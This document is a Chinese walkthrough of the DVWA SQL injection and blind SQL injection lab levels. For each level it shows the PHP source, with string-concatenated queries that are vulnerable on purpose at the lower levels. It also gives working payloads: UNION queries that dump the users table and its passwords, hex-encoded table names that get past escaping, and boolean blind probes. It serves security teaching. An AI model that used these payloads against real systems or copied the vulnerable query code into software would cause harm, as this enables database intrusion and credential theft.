

## Low

### 源代码

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```


### 代码分析

由代码可知，通过`REQUEST`方式接受传递的参数id，再通过sql语句带入查询，并未设置任何过滤，因此可以进行sql注入利用。

**常见注入测试的POC：**


### 漏洞利用

判断是否存在注入，注入是字符型还是数字型

随便输入一个数字，比如 2 ，查询成功


尝试输入 1' or '1'='1，成功


尝试输入 1' or '2' = '2，同样成功


上面两测试都返回了多个结果，说明可以字符型注入


## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```


### 代码分析

利用mysql_real_escape_string函数对特殊符号\x00,\n,\r,,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。


### 漏洞例用

#### 数字型注入

抓包慕改ID为 1 order by 1 # ，成功


#### 顺便看一下字段数

`1 order by 2 #` 查询成功


`1 order by 3 #` 查询失败


**说明表中只有两个字段**


#### 获取当前数据库

```
1 union select 1,database() #
```


当前的数据库为dvwa


#### 获取数据库中的表

```
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```


**发现 guestbook, users 两个表**


#### 获取字段名

需要注意的是，在Med等级引号会被转义，但实际上可以用16进制绕过转义

```
1 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 #
```


**发现字段名： user_id, first_name, last_name, user, password, avatar, last_login, failed_login**

 

#### 尝试查表

```
1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #
```


## High

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>
```


### 代码分析

与Medium级别的代码相比，High级别的只是在SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。

High级别的查询提交页面与查询结果显示页面不是同一个，也没有跳转，是为了防止一般的sqlmap注入，

因为sqlmap在注入过程中，无法在查询提交页面上获取查询的结果，没有了反馈，就无法进一步注入。

### 漏洞例用

虽然添加了 LIMIT 1，但是我们可以通过#将其注释掉 ，构建攻击语句 `1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(password) from users #` ，查询成功


## Impossible

**源代码**

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();

        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```


**分析**

采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入，同时只有返回的查询结果数量为一时，才会成功输出，这样就有效预防了“脱裤”，Anti-CSRFtoken机制的加入了进一步提高了安全性。


# SQL Injection (Blind)

服务端只会返回不会显示搜索值，此类无回显的SQL注入称作SQL盲注。

其只会返回用户存在与否，即真假，此类盲注成为布尔(bool)盲注。

注入思路是猜解库表字段和数据的长度，每个猜完长度之后猜解每一位字符的 ASCII 值，然后拼接之后形成字符。


SQL 盲注步骤：

1. 判断是否存在注入，注入是字符型还是数字型；
2. 猜解当前数据库名；
3. 猜解数据库中的表名；
4. 猜解表中的字段名；
5. 猜解数据。

防御 SQL 注入攻击：

1. 过滤危险字符：可以使用正则表达式匹配各种 SQL 子句，例如 select,union,where 等，如果匹配到则退出程序。
2. 使用预编译语句：PDO 提供了一个数据访问抽象层，这意味着不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。使用 PDO 预编译语句应该使用占位符进行数据库的操作，而不是直接将变量拼接进去。

## Low

### 源代码

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                try {
                    $exists = (mysqli_num_rows( $result ) > 0);
                } catch(Exception $e) {
                    $exists = false;
                }
            }
            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

            break;
    }

    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

}

?>
```


### 代码分析

用 GET 方法传入参数 id，没有经过任何过滤就拿去做 SQL 查询。

服务器返回这个 id 是否存在。也就是说查询内容不会被回显，存在 SQL 盲注漏洞。

可通过Bool盲注猜测数据库中的敏感信息

### 漏洞利用

#### 字符型注入

尝试输入 `1` ，查询成功。


尝试输入 `1' and 1=1 #`，查询成功。


尝试输入 `1' and 1=2 # `，查询失败


可见其只有两种返回，并且因为需要用单引号闭合，存在字符型注入漏洞。


#### 猜测版本号

查询MySQL版本语句为

```mysql
select version();
```


首先测试版本号的长度 

​	`length()` 函数获取字符串长度

​	`substr( string, start, length)` 函数截取字符串

​	用 `substr()` 函数提取返回的版本号字符串，使用 `length()` 函数和我们的猜测值比较是否相等

```mysql
# 分别测试以下语句
1' and length(substr((select version()),1)) = 1 #
1' and length(substr((select version()),1)) = 2 #
1' and length(substr((select version()),1)) = 3 #
1' and length(substr((select version()),1)) = 4 #
1' and length(substr((select version()),1)) = 5 #
1' and length(substr((select version()),1)) = 6 #
```

直到 `1' and length(substr((select version()),1)) = 6 #`，返回查询成功，则说明版本号为六位


然后测试出版本号

周所周知，一般版本号都是 x.x.x.x 之类的组成 ( 'x' 代表数字)，而 MySQL 一般为 x.x.xx

进行逐个尝试或猜测

```mysql
1' and substr((select version()),1,1) = '5' #
1' and substr((select version()),2,1) = '.' #
1' and substr((select version()),3,1) = '5' #
1' and substr((select version()),4,1) = '.' #
1' and substr((select version()),5,1) = '3' #
1' and substr((select version()),6,1) = '3' #
```


最后拼接得到 MySQL 版本为 5.5.33


## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
                } catch(Exception $e) {
                    $exists = false;
                }
            }
            
            break;
        case SQLITE:
            global $sqlite_db_connection;
            
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }
            break;
    }

    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
}

?>
```


### 代码分析

使用了 mysql_real_escape_string() 函数转义字符串中的特殊字符。特殊符号 \x00、\n、\r、\、'、" 和 \x1a 都将进行转义。

同时前端页面的输入框删了，改成了下拉选择表单，希望以此来控制用户的输入。


### 漏洞利用

用 BP 改包即可

> 注：如使用特殊字符，会被过滤，需换成 ASCII 码值

如：测试 MySQL 版本号 第一位是否为 5

```mysql
1 and ascii(substr((select version()),1,1)) = 53 #
```


返回：




## High

### 源代码

```php
<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

            $exists = false;
            if ($result !== false) {
                // Get results
                try {
                    $exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
                } catch(Exception $e) {
                    $exists = false;
                }
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
            break;
        case SQLITE:
            global $sqlite_db_connection;

            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            try {
                $results = $sqlite_db_connection->query($query);
                $row = $results->fetchArray();
                $exists = $row !== false;
            } catch(Exception $e) {
                $exists = false;
            }

            break;
    }

    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // Might sleep a random amount
        if( rand( 0, 5 ) == 3 ) {
            sleep( rand( 2, 4 ) );
        }

        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
}

?>
```


### 代码分析

查询语句加了 LIMIT 1，但是我们可以利用 “#” 把它注释掉，跟 Low 等级基本没差

> 除了查询不到结果时，服务器会等待一段时间再返回，这会对时间盲注造成混淆，不使用时间盲注即可！


### 漏洞利用


## Impossible

### 源代码

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
    $exists = false;

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        $id = intval ($id);
        switch ($_DVWA['SQLI_DB']) {
            case MYSQL:
                // Check the database
                $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
                $data->bindParam( ':id', $id, PDO::PARAM_INT );
                $data->execute();

                $exists = $data->rowCount();
                break;
            case SQLITE:
                global $sqlite_db_connection;

                $stmt = $sqlite_db_connection->prepare('SELECT COUNT(first_name) AS numrows FROM users WHERE user_id = :id LIMIT 1;' );
                $stmt->bindValue(':id',$id,SQLITE3_INTEGER);
                $result = $stmt->execute();
                $result->finalize();
                if ($result !== false) {
                    // There is no way to get the number of rows returned
                    // This checks the number of columns (not rows) just
                    // as a precaution, but it won't stop someone dumping
                    // multiple rows and viewing them one at a time.

                    $num_columns = $result->numColumns();
                    if ($num_columns == 1) {
                        $row = $result->fetchArray();

                        $numrows = $row[ 'numrows' ];
                        $exists = ($numrows == 1);
                    }
                }
                break;
        }

    }

    // Get results
    if ($exists) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    } else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```


### 代码分析

采用了 PDO 技术，防止代码和查询数据的混杂，Anti-CSRFtoken 机制的加入了进一步提高了安全性


